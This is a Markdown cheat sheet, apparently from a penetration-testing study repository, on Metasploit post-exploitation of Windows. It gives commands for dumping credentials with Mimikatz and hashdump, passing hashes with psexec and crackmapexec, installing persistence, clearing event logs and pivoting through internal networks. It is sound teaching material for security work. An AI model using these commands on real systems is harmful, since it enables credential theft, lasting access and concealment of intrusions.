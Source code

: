 # MSF Windows Post Exploitation Modules

We can utilize these post exploitation modules to enumerate information about the Windows system we currently have access to:
+ Enumerate user privileges
+ Enumerate logged on users
+ VM check
+ Enumerate installed programs
+ Enumerate AVs
+ Enumerate computers connected to domain
+ Enumerate installed patches
+ Enumerate shares





## Local Enumeration

```

search upgrade platform:windows


windows/gather/

# privilege enumeration
search win_privs


# check wheter the target is a Virtual Machine
search checkvm

# Local Enumeration
search enum_logged_on
windows/gather/enum_shares
windows/gather/enable_rdp
windows/gather/enum_computer

windows/gather/enum_applications
windows/gather/enum_av_excluded
windows/gather/enum_patches



```




## Privilege Escalation


### Bypass UAC
We can utilize the "Windows Escalate UAC Protection Bypass (In Memory Injection)" module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.






### Token Impersonation With Incognito
Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.

We can use the incognito module to display a list of available tokens that we can impersonate.


The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation tokens available.

The following are the privileges that are required for a successful impersonation attack:
- `SeAssignPrimaryToken`: This allows a user to impersonate tokens.
- `SeCreateToken`: This allows a user to create an arbitrary token with administrative privileges.
- `SeImpersonatePrivilege`: This allows a user to create a process under the security context of another user typically with administrative privileges.

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_toke "[TOKEN NAME]"
# then you may have to migrate to another process
meterpreter > migrate [PROCESS ID]



```







### Mimikatz
We can utilize the pre-built mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk.

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of plaintext credentials from memory, password hashes from local SAM databases, and more.


```
meterpreter > pgrep lsass
meterpreter > migrate [LSASS PROCESS ID]
meterpreter > load kiwi
# (see all kiwi commands in help)
cred_all
lsa_dump_sam
lsa_dump_secrets


```






### Pass-The-Hash

Pass-the-hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.

This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.

We can use the `PsExec` module to legitimately authenticate with the target system via SMB.

```
meterpreter > hashdump

use exploit/windows/smb/psexec
	set SMBPass [DUMPED HASH]
	set target Native\ upload
```


#### With crackmapexec
```
crackmapexec smb [IP] -u Administrator -H [DUMPED HASH]
crackmapexec smb [IP] -u Administrator -H [DUMPED HASH] -x "ipconfig"

```





## Establishing Persistence On Windows


Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

Gaining an initial foothold is not enough, you need to setup and maintain

We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.


```
search platform:windows persistence


```


Example:
Use `exploit/windows/local/persistence_service`, then you can reconnect any time using `multi/handler` (user the same options specified in the persistence_service module)












## Clearing tracks / Clearing Windows Event Logs

The event logs are the first stop for any forensic investigator after a compromise has been detected. It is therefore very important to clear your tracks after you are done with your assessment.

The Windows OS stores and catalogs all actions/events performed on the system and stores them in the Windows Event log.

Event logs are categorized based on the type of events they store:
- Application logs: Stores application/program events like startups, crashes etc.
- System logs: Stores system events like startups, reboots etc.
- Security logs: Stores security events like password changes, authentication failures etc.

Event logs can be accessed via the `Event Viewer` on Windows.


```
meterpreter > clearev

meterpreter > rm [UPLOADED FILES]


```










## Pivoting

Pivoting is a post exploitation technique that involves utilizing a compromised host to attack other systems on the compromised host’s private internal network.

After gaining access to one host, we can use the compromised host to exploit other hosts on the same internal network to which we could not access previously.

Meterpreter provides us with the ability to add a network route to the internal network's subnet and consequently scan and exploit other systems on the network.


```
meterpreter > ipconfig

meterpreter > run autoroute -s 10.2.27.0/20

# Now we can run MSF modules to the new added route
# Example: > use auxiliary/scanner/portscan/tcp [victim 2 IP]

# Use port forwarding
meterpreter > portfwd add -l [LOCAL PORT] -p [victim 2 PORT] -r [victim 2 IP]

# then we can use nmap
db_nmap -sS -sV -p [LOCAL PORT forwaded] localhost


```

for a exploit in the victim 2 use `bind_tcp` instead of `reverse_tcp` payload




